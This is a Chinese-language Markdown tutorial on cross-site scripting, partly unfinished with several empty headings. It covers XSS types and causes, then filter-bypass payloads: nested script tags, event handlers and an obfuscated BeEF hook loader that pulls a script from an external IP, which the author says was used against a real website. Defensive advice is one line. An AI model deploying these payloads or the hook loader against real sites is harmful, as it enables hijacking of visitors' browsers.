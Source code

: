 # 02.XSS跨站点脚本

##2.1 XSS介绍

  Cross-Site Scripting(跨站点脚本)是Web中最广泛利用的一种漏洞之一，占据OWASP 2013年Web漏洞第三位，其广泛程度以及危害性可见一斑。
  
  XSS漏洞的原理，简而言之，就是：利用Web应用程序的漏洞，向页面中注入JavaScript恶意代码使其运行并进行破坏。 
  
###2.1.1 XSS分类
  
  XSS 主要分为两类，反射性XSS和存储型XSS。
  
  * 反射性XSS
    反射性的恶意并不直接存储在目标系统存储中，攻击者利用漏洞构造指定格式的URL，利用欺骗等手段让受害人误点击URL从而访问目标页面并指定恶意脚本。
    例如：`http://webapp.com?content=<script>alert('XSS')</script>`
  * 存储型XSS
    存储型XSS是指，攻击者将恶意代码存储到目标系统中，在系统向页面输入该内容时，脚本自动被执行。

###2.1.2 XSS产生原因
  
  有句话说的妙：___All Input is Evil！所有的输入都是恶意的！___这是防御式编程里必须设定的一个前提。XSS产出的原因是由于没有对用户的输入进行足够的校验和过滤，攻击者可以构造恶意脚本从而导致漏洞的发生。
  
  用户再input[type=text]框里输入`<script>alert('xss');</script>`，系统就毫不保留得在浏览器进行输输出，从而导致XSS漏洞，这是对合法用户极其不负责任的一种行为。
   
###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

加入playload如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

如果想让脚本自动执行，可以利用onload,onunload,onerror等时间，可以利用onfouse事件，例如:

```html
<input onfouse="alert('xss')" autofouse />
```

如果系统对标签事件进行了过滤，那么可以针对过滤的规则进行playload，例如**2.2.1.2**提到的技巧。

####2.2.1.4 /代替空格

####2.2.1.7 其他可以利用的标签

  * iframe
  * meta
  * style
  * embed
  * flash
  * applet
  * ...

###2.2.2 高帅富篇

####2.2.2.1 伪协议javascript:alert('xss')

####2.2.2.2 伪协议data:text/html

####2.2.2.3 绕过关键字过滤的技巧

以下是我成功注入一个网站的一段js代码，系统对window,document,createElement,js等关键字进行了过滤，但还是被成功注入了。
```javascript
if(typeof beef=='undefined'){
  var url='http://119.xxx.128.103:3000/hook.'+'j'+'s';
  dd=self['d'+'o'+'cument'];
  bf=dd['create'+'Element']('script');
  bf.async=true;
  bf.src=url;dd.body.appendChild(bf);}
}
```

####2.2.2.3  完恶之源eval

##2.3 XSS防注
  
  
    数据和架构分离：前端模板jQuery，ejs，ployer，$('<div/>')
  
##2.4 XSS平台：beef-xss

参考文档：OWASP ,维基百科，百度百科
